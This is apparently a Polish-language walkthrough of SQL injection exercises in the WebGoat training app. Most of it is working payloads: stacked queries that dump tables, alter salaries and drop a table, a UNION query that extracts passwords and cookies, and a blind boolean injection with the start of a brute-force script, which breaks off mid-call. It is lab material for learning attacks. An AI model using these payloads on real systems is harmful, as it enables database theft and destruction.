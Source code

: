   Zad. 11.
  ```sql
  3SL99A';select * from employees;--
  ```
  Zad. 12.
  ```sql
  3SL99A';update employees set salary = '2137000' where auth_tan = '3SL99A';--
  ```
  Zad. 13.
  ```sql
  ';drop table access_log;--
  ```
* SQL Injection (advanced)
  Zad. 3.
  ```sql
  '; select * from user_system_data;--
  ```
  Korzystając z union:
  ```sql
  ' union select 1, user_name, password, cookie, 'a', 'a', 1 from user_system_data;--
  ```
  Zad. 5.
  Register form jest podatny na atak, na polu username:
  ```sql
  tom' AND '1' = ' 
  ```
  Zwraca:
  ```
  User {0} already exists please try to register with a different username.
  ```
  Dopóki dostajemy powyższy komunikat, to znaczy że dostajemy **TRUE**.
  Teraz sprawdzamy czy 1 litera hasła to jest np. a:
  ```sql
  tom' AND substring(password, 1, 1) ='a
  ```
  Atakiem bruteforce, możemy poznać hasło Toma.
  Potrzebujemy URL na który będziemy wysyłać zapytania, jakich headerów potrzebujemy i jaki body musimy przesyłać:
  ```
  Request URL: http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge
  ```
  Autoryzujemy się do WebGoat poprzez Cookie:
  ```
  Cookie: JSESSIONID=DDQos9rvlcM7xgIGLKvJQD7DIv8qmPgIM0r0dRfX; WEBWOLFSESSION=lqEaXggkOKIAUWMRihT91pzh3L1sf_QkVqVeGvDf
  ```
  Payload:
  ```
  username_reg: tom
  email_reg: test@test
  password_reg: a
  confirm_password_reg: a
  ```
  Za pomocą skryptu w pythonie, który po kolei pyta o każdą literę alfabetu, znajdujemy hasło   **thisisasecretfortomonly**:
  ```py
  import json
  import requests

  def find_tom_pass():
    mask = "abcdefghjiklmnopqrstuvwxyzABCDEFGHJIKLMNOPQRSTUVWXYZ"
    curr = 0
    index = 1
    result = ''
    while True:
      inject = f"tom' AND substring(password, {index}, 1) ='{mask[curr]}"
      print(inject)
      req = requests.put(
  ```